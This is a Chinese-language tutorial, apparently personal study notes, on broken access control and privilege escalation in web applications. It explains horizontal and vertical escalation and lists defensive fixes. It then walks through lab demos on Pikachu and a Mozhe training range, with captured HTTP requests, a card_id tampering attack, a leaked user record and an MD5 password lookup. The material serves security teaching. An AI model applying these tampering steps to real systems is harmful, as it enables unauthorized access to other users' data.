 ### 导图

![逻辑越权](image/逻辑越权.png)

### 越权漏洞

越权访问（Broken Access Control，简称BAC）是Web应用程序中一种常见的漏洞，由于其存在范围广、危害大，被OWASP列为Web应用十大安全隐患的第二名。

　　该漏洞是指应用在检查授权时存在纰漏，使得攻击者在获得低权限用户账户后，利用一些方式绕过权限检查，访问或者操作其他用户或者更高权限。**越权漏洞的成因主要是因为开发人员在对数据进行增、删、改、查询时对客户端请求的数据过分相信而遗漏了权限的判定。**在实际的代码审计中，这种漏洞往往很难通过工具进行自动化监测，因此在实际应用中危害很大。其与未授权访问有一定差别，目前存在着两种越权操作类型，横向越权操作（水平越权）和纵向越权操作（垂直越权）

![v2-5fefd7bec4b78cc29fd64643ed46cd50_1440w](image/v2-5fefd7bec4b78cc29fd64643ed46cd50_1440w.png)

### 水平越权

指相同权限下不同的用户可以互相访问

#### 测试方法：

主要通过看看能否通过A用户操作影响到B用户

### 垂直越权

指使用权限低的用户可以访问到权限较高的用户

#### 测试方法：

看看低权限用户是否能越权使用高权限用户的功能，比如普通用户可以使用管理员的功能。

### 漏洞产生原理：

#### 前端安全造成：界面

判断用户等级后，代码界面部分进行可选显示

#### 后端安全造成：数据库

user 表(管理员和普通用户同表)
id,username,password,usertype
1,admin,123456,1
2,xiaodi,11111,2

#### 登录用户 admin 或 xiaodi 时，代码是如何验证这个级别？（usertype 判断）

如果在访问数据包中有传输用户的编号、用户组编号或类型编号的时候，那么尝试对这个值进行修改，就是测试越权漏洞的基本。

### 修复防御方案

1.前后端同时对用户输入信息进行校验，双重验证机制
2.调用功能前验证用户是否有权限调用相关功能
3.执行关键操作前必须验证用户身份，验证用户是否具备操作数据的权限
4.直接对象引用的加密资源 ID，防止攻击者枚举 ID，敏感数据特殊化处理
5.永远不要相信来自用户的输入，对于可控参数进行严格的检查与过滤

### 演示案例：

### Pikachu-本地水平垂直越权演示（漏洞成因） 

#### 水平越权

![](image/QQ截图20220321173041.png)

更改username lucy——>kobe   

![](image/QQ截图20220321173120.png)

#### 垂直越权

##### 前提条件:获取的添加用户的数据包

1.普通用户前端有操作界面可以抓取数据包
2.通过网站源码本地搭建自己去模拟抓取
3.盲猜



**管理员账户：admin**

**普通用户：pikachu**

管理员账户界面

![](image/QQ截图20220321173609.png)

普通账户界面

![](image/QQ截图20220321173526.png)





抓取admin添加账户的包，并且更改为普通用户pikachu的phpsession

![](image/QQ截图20220321180813.png)



放包后，在刷新普通用户界面，出现添加账户

![](image/QQ截图20220321180853.png)

查看代码

![](image/QQ截图20220321181802.png)

数据库表

![](image/QQ截图20220321182017.png)

![](image/QQ截图20220321181839.png)

![](image/QQ截图20220321181900.png)

![](image/QQ截图20220321191124.png)



### 墨者水平-身份认证失效漏洞实战（漏洞成因）

![](image/QQ截图20220321193724.png)

马春生图片链接

http://124.70.64.48:47325/static/img/20128880316.jpg

登录test账户，抓包

```txt
GET /user_info.php HTTP/1.1
Host: 124.70.64.48:47325
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://124.70.64.48:47325/index.php?a=login
Connection: close
Cookie: PHPSESSID=2a14ujvvjk9puum9qvpelkaae2; uid=test; mid=6927071f788211ee17211be0b89ef1e6
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

```txt
GET /json.php?card_id=20128880322 HTTP/1.1
Host: 124.70.64.48:47325
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://124.70.64.48:47325/user_info.php
Cookie: PHPSESSID=2a14ujvvjk9puum9qvpelkaae2; uid=test; mid=6927071f788211ee17211be0b89ef1e6
Cache-Control: max-age=0
```


card_id 存在水平越权漏洞

获取到
card_id=20128880316的数据

```txt
getProfile({"card_id":"20128880316",
"user":"m233241",
"password":"71cc568f1ed55738788751222fb6d8d9",
"email":"hhh222@gmail.com","tel":"13922137899",
"login_ip":"110.21.43.66",
"name_uid":"520181197603155771"})  

密码形式：观察应该是md5加密

md5查询：
71cc568f1ed55738788751222fb6d8d9
9732343
```

根据账号密码，尝试登录，获取到key（一个个遍历尝试也行，如果没发现图片的id）

![](image/QQ截图20220321193646.png)



### 越权检测-小米范越权漏洞检测工具（工具使用）

### 越权检测-Burpsuite 插件 Authz 安装测试（插件使用）

### 涉及资源：

[https://github.com/ztosec/secscan-authcheck](https://github.com/ztosec/secscan-authcheck)
[http://pan.baidu.com/s/1pLjaQKF](http://pan.baidu.com/s/1pLjaQKF) (privilegechecker)
[https://www.mozhe.cn/bug/detail/eUM3SktudHdrUVh6eFloU0VERzB4Zz09bW96aGUmozhe](https://www.mozhe.cn/bug/detail/eUM3SktudHdrUVh6eFloU0VERzB4Zz09bW96aGUmozhe)